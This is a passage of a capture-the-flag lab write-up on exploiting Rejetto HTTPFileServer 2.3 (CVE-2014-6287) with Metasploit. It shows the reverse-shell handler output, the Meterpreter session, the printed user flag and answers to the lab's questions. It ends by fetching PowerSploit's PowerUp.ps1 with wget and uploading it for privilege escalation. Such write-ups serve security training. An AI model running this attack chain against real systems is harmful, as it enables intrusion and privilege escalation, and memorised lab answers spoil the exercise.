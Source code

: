 [*] Started reverse TCP handler on 10.10.94.75:4444 
[*] Using URL: http://0.0.0.0:8080/xzAZ6wLUlAo
[*] Local IP: http://10.10.94.75:8080/xzAZ6wLUlAo
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /xzAZ6wLUlAo
[*] Sending stage (176195 bytes) to 10.10.225.45
[*] Meterpreter session 1 opened (10.10.94.75:4444 -> 10.10.225.45:49221) at 2021-09-19 02:53:09 +0100
[!] Tried to delete %TEMP%\FwBihNrTuxbiwK.vbs, unknown result
[*] Server stopped.

meterpreter > 
</pre>
We will need to navigate to find the user flag</li>
<li> <code>cd /Users/bill/Desktop</code></li>
<li> <code>cat user.txt</code>
<pre>
meterpreter > cd /Users/bill/Desktop
meterpreter > cat user.txt
\ufffd\ufffdb04763b6fcf51fcd7c13abc7db4fd365
meterpreter > 
</pre></li>
</ol>

### Questions
- Scan the machine with nmap. What is the other port running a web server on?
    - 8080
- Take a look at the other web server. What file server is running?
    - When we go to <code>10.10.74.238:8080</code>, it looks like some sort of upload page. On the lower-left hand-side, we see something that looks like it gives server information, and when we hover over the link, it brings us to another site
    - Looks like this is running something called <code>Rejetto HTTPFileServer 2.3</code>
- What is the CVE number to exploit this file server?
    - Just a quick duckduckgo search using the value "Rejetto HTTPFileServer 2.3" gives us https://www.exploit-db.com/exploits/39161, which points to <code>CVE-2014-6287</code>
- Use Metasploit to get an initial shell. What is the user flag?
    - <code>db04763b6fcf51fcd7c13abc7db4fd365</code>

## Privilege Escalation (with Metasploit)
Here, we will use PowerUp, available at https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
<ol style="list-style:number">
<li>In the attacker machine, create another terminal (preferably in the same directory that you are running metasploit), and copy and paste the script into a new file called PowerUp.ps1. Or, we can use <code>wget</code> to pull in the raw file (which we can obtain when we go to https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1 and click Raw)
<pre>
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
</pre></li>
<li> Switch back to the metasploit terminal and upload
<pre>
meterpreter > upload PowerUp.ps1
[*] uploading  : PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 1.91 MiB of 1.91 MiB (100.0%): PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : PowerUp.ps1 -> PowerUp.ps1
meterpreter > 
</pre></li>
<li> We will then load the powershell extension into the meterpreter and run the script, and then Invoke-AllChecks:
<pre>
meterpreter > load powershell
Loading extension powershell...Success.